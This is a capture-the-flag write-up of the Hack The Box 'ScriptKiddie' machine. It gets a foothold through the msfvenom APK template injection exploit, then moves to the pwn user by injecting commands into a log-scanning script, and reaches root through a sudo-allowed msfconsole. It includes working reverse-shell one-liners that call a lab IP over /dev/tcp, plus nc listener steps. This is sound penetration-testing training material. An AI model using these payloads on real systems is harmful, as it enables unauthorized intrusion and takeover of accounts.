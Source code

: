 #linux 
# Enumeration
## nmap
```bash
nmap -sC -sV scriptkiddie.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-19 01:57 EST
Nmap scan report for scriptkiddie.htb (10.129.95.150)
Host is up (0.19s latency).
Other addresses for scriptkiddie.htb (not scanned): 10.129.95.150
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c656bc2dfb99d627427a7b8a9d3252c (RSA)
|   256 b9a1785d3c1b25e03cef678d71d3a3ec (ECDSA)
|_  256 8bcf4182c6acef9180377cc94511e843 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.17 seconds
```

## Check the website

![[Pasted image 20230219213432.png]]

### nmap
127.0.0.1
![[Pasted image 20230219213521.png]]
the machine's nmap version is 7.80

### payloads
difficult to get result

### sploits
seems like its searchsploit
tried to put test in the box
![[Pasted image 20230219215606.png]]

look at msfvenom venom it up is the keyword?
![[Pasted image 20230219221158.png]]
https://www.exploit-db.com/exploits/49491

## create payload
`searchsploit -m 49491`

`cp /tmp/tmp3diped9_/evil.apk .`


## metasploit

```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[-] Exploit failed: cmd/unix/python/meterpreter/reverse_tcp: All encoders failed to encode.
```

`show payloads`
```
TCP (via AWK)
   38  payload/cmd/unix/reverse_bash                                          normal  No     Unix Command Shell, Reverse 
```

`set payload 38`

https://forum.hackthebox.com/t/metasploit-no-encoders-encoded-the-buffer-successfully/471/10

```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/kali/.msf4/local/msf.apk
```

# Foothold

## get the shell
os: androld
lhost: 10.10.14.44
apk the one we just created

kali 
`nc -lnvp 1234`

## shell as kid
```
nc -lnvp 1234        
listening on [any] 1234 ...
connect to [10.10.14.44] from (UNKNOWN) [10.129.95.150] 41102
whoami
kid
```

# priv escalation
## enumerate

## /html
has app.py written in flask

app.py
```python
def searchsploit(text, srcip):
    if regex_alphanum.match(text):
        result = subprocess.check_output(['searchsploit', '--color', text])
        return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")

```
this part writes log.

Check the log
```python
Python 3.11.1 (main, Dec 31 2022, 10:23:59) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import datetime
>>> srcip = '10.10.14.44'
>>> print(f'[{datetime.datetime.now()}] {srcip}\n')
[2023-02-19 08:52:44.141615] 10.10.14.44
```

### /logs
there is a file called hackers

```
-rw-rw-r--  1 kid pwn    0 Feb 19 12:33 hackers
```
there is pwn?

### /pwn
recon file and scanlosers.sh

```
drwxrw---- 2 pwn  pwn  4096 Feb 19 12:50 recon
-rwxrwxr-- 1 pwn  pwn   250 Jan 28  2021 scanlosers.sh
```
no permission for recon but we can read scanlosers.sh

```bash
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

#### command injection
We can try to inject a command in this shell. Eventually what we want to do is that , since this is owned by pwn, so if we can run a command as pwn then we can get pwn's shell.

sh -c "" part runs nmap and it takes ip. we can append some sort of commands after ip, then we can run nmap and an arbitrary commands.

```
cut -d' ' -f3-
```
takes everything after the third word thats separated by a space.

```
echo "x x x 127.0.0.1; ping -c 1 10.10.14.15 #" | cut -d' ' -f3-
```

`sudo tcpdump -i tun0 icmp`

the payload would e
```
echo "  test|bash -c '/bin/bash -l > /dev/tcp/10.10.14.44/1234 0<&1 2>&1'" > hackers
```


## trying the log
https://0xdf.gitlab.io/2021/06/05/htb-scriptkiddie.html
```
echo "[2021-05-28 12:37:32.655374] 10.10.14.15" > hackers; cat hackers; echo sleep; sleep 1; cat hackers; echo done
```

```
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.44/1234 0>&1' # ." > hackers
```

listen on another shell to get pwn

## pwn -> root

```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

```
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

`msf6 > /bin/bash`

### root flag

go to `/root/root.txt`